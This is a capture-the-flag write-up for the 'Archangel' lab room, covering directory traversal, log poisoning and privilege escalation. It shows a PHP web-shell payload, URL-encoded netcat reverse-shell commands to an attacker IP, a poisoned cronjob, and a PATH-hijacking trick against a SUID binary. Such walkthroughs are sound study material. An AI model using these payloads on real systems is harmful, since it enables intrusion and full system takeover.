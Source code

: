# Archangel

### Archangel
Nmap scan shows ports 22 and 80 open. The room suggests to find a hidden hostname. I don't know what the domain is but the header of the page suggests that it might be `mafialive.thm`:<br />
![image](https://github.com/user-attachments/assets/fbb156ab-eecb-47da-85d6-882e749db36e)<br />
So I add the following line to the /etc/hosts file: `10.10.142.179 mafialive.thm`. This domain contains the first flag. 
After some enumeration, the following URL: `http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//../etc/passwd` worked for me to read the contents of the `/etc/passwd` file.<br /> 
I now perform log poisoning. First, I intercept a request with burp and substitute the user-agent with this code: `<?php system($_GET['cmd']); ?>`. <br />
Next, I visit: `http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//../var/log/apache2/access.log&cmd=id` and get RCE: <br />
![image](https://github.com/user-attachments/assets/de12fddb-fd75-4e45-b49e-03707cd16a96)<br />
Now to spawn a reverse shell I open a netcat listener on port 9001 and visit: `http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//../var/log/apache2/access.log&cmd=busybox%20nc%2010.14.90.188%209001%20-e%20sh`.<br />
Now to log into archangel's account: <br />
![image](https://github.com/user-attachments/assets/4b40dc9c-2d9c-4d82-a8e1-8a3143ae4e42)<br />
Archangel runs a cronjob to which I have write access. I just need to modify it to spawn a reverse shell. I modified it with `busybox nc 10.14.90.188 4444 -e sh`, and got a reverse shell after a few seconds. To become root now, inside `/home/archangel/secret`, there's a SUID binary called `backup`. If I run `strings backup` I get, among other things, the following: <br />
![image](https://github.com/user-attachments/assets/0468b940-da79-4023-af64-e94b3eaa2122)<br />
The vulnerability here lies in the fact that this binary is running `cp`,  not `/usr/bin/cp` or whatever. The path is relative, not absolute. This means that I can create my own `cp` binary inside `/tmp`, and change the PATH environment variable to first search inside `/tmp`.
The newly created `cp` file looks as follows:

    #!/bin/bash
    /bin/bash

Now make it executable with `chmod +x cp`. Finally, change the PATH with the following command: `export PATH=/tmp:$PATH`. Now just run the SUID binary and become root:<br />
![image](https://github.com/user-attachments/assets/5c381b0b-bdf7-4f03-8c5c-8cb310d72024)<br />




